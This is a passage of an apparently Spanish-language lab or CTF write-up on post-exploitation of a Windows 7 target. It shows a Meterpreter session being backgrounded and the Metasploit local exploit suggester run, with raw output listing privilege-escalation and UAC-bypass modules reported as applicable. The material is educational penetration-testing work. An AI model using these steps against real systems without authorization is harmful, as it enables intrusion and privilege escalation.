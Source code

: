 ```bash
```

La salida confirmó que la máquina objetivo corre **Windows 7 Professional SP1 x64**, con un solo procesador Intel y 2 GB de RAM, bajo el nombre de host **DARK-PC** y grupo de trabajo **WORKGROUP**. Esta información es útil para seleccionar exploits compatibles con la arquitectura y versión del sistema.

## Post-explotación inicial: descubrimiento de exploits locales

Para continuar con la auditoría de post-explotación y evaluar posibles vectores de escalada de privilegios, se puso la sesión de Meterpreter en segundo plano.

Posteriormente, se ejecutó el módulo **Local Exploit Suggester**, que recopila exploits locales aplicables a la sesión actual y la arquitectura del sistema:

```bash
Background channel 1? [y/N]  y
meterpreter > run post/multi/recon/local_exploit_suggester
[*] 10.10.39.239 - Collecting local exploits for x86/windows...
/usr/share/metasploit-framework/vendor/bundle/ruby/3.3.0/gems/logging-2.4.0/lib/logging.rb:10: warning: /usr/lib/x86_64-linux-gnu/ruby/3.3.0/syslog.so was loaded from the standard library, but will no longer be part of the default gems starting from Ruby 3.4.0.
You can add syslog to your Gemfile or gemspec to silence this warning.
Also please contact the author of logging-2.4.0 to request adding syslog into its gemspec.
[*] 10.10.39.239 - 203 exploit checks are being tried...
[+] 10.10.39.239 - exploit/windows/local/bypassuac_comhijack: The target appears to be vulnerable.
[+] 10.10.39.239 - exploit/windows/local/bypassuac_eventvwr: The target appears to be vulnerable.
[+] 10.10.39.239 - exploit/windows/local/cve_2020_0787_bits_arbitrary_file_move: The service is running, but could not be validated. Vulnerable Windows 7/Windows Server 2008 R2 build detected!
[+] 10.10.39.239 - exploit/windows/local/ms10_092_schelevator: The service is running, but could not be validated.
[+] 10.10.39.239 - exploit/windows/local/ms13_053_schlamperei: The target appears to be vulnerable.
[+] 10.10.39.239 - exploit/windows/local/ms13_081_track_popup_menu: The target appears to be vulnerable.
[+] 10.10.39.239 - exploit/windows/local/ms14_058_track_popup_menu: The target appears to be vulnerable.
[+] 10.10.39.239 - exploit/windows/local/ms15_051_client_copy_image: The target appears to be vulnerable.
[+] 10.10.39.239 - exploit/windows/local/ntusermndragover: The target appears to be vulnerable.
[+] 10.10.39.239 - exploit/windows/local/ppr_flatten_rec: The target appears to be vulnerable.
[+] 10.10.39.239 - exploit/windows/local/tokenmagic: The target appears to be vulnerable.
[*] Running check method for exploit 42 / 42
[*] 10.10.39.239 - Valid modules for session 1:
```

El módulo analizó la máquina y reportó múltiples exploits potencialmente vulnerables, incluyendo:

- `exploit/windows/local/bypassuac_comhijack`
- `exploit/windows/local/bypassuac_eventvwr`
- `exploit/windows/local/ms13_081_track_popup_menu`
- `exploit/windows/local/tokenmagic`  
… entre otros.
